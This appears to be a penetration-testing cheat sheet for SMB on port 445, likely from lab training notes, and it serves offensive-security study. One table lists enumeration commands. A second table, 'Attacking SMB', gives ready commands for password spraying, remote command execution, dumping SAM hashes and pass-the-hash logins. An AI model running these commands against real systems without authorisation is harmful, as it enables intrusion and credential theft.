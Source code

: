### Graphical Interface

```
jxplorer
```

---

## SMB - 445

### Useful commands

| **Command**                                              | **Description**                                                                                         |
| -------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| `smbclient -N -L //<FQDN/IP>`                            | Null session authentication on SMB and to see available shares                                          |
| `smbclient //<FQDN/IP>/<share>`                          | Connect to a specific SMB share.                                                                        |
| `rpcclient -U "" <FQDN/IP>`                              | Interaction with the target using RPC.                                                                  |
| `samrdump.py <FQDN/IP>`                                  | Username enumeration using Impacket scripts.                                                            |
| `smbmap -H <FQDN/IP>`                                    | Enumerating SMB shares.                                                                                 |
| `crackmapexec smb <FQDN/IP> --shares -u '' -p ''`        | Enumerating SMB shares using null session authentication.                                               |
| `enum4linux-ng.py <FQDN/IP> -A`                          | SMB enumeration using enum4linux.                                                                       |
| `samrdump.py 10.129.14.128`                              | Impacket - Samrdump.py                                                                                  |
| `smbmap -H 10.129.14.128`                                | Enumerating SMB null session using smbmap                                                               |
| `crackmapexec smb 10.129.14.128 --shares -u '' -p ''`    | Enumerating SMB null session using cme                                                                  |
| [Enum4linux](https://github.com/cddmp/enum4linux-ng.git) | This tool automates many of the SMB queries, but not all, and can return a large amount of information. |
| `./enum4linux-ng.py 10.129.14.128 -A`                    | Enum4Linux-ng - Enumeration                                                                             |

### Attacking SMB

| **Command**                                                                                                     | **Description**                                                                                          |
| --------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| `smbclient -N -L //10.129.14.128`                                                                               | Null-session testing against the SMB service.                                                            |
| `smbmap -H 10.129.14.128`                                                                                       | Network share enumeration using `smbmap`.                                                                |
| `smbmap -H 10.129.14.128 -r notes`                                                                              | Recursive network share enumeration using `smbmap`.                                                      |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"`                                                           | Download a specific file from the shared folder.                                                         |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`                                                    | Upload a specific file to the shared folder.                                                             |
| `rpcclient -U'%' 10.10.110.17`                                                                                  | Null-session with the `rpcclient`.                                                                       |
| `./enum4linux-ng.py 10.10.11.45 -A -C`                                                                          | Automated enumeratition of the SMB service using `enum4linux-ng`.                                        |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`                                            | Password spraying against different users from a list.                                                   |
| `impacket-psexec administrator:'Password123!'@10.10.110.17`                                                     | Connect to the SMB service using the `impacket-psexec`.                                                  |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`            | Execute a command over the SMB service using `crackmapexec`.                                             |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`                           | Enumerating Logged-on users.                                                                             |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`                                        | Extract hashes from the SAM database.                                                                    |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`                            | Use the Pass-The-Hash technique to authenticate on the target host.                                      |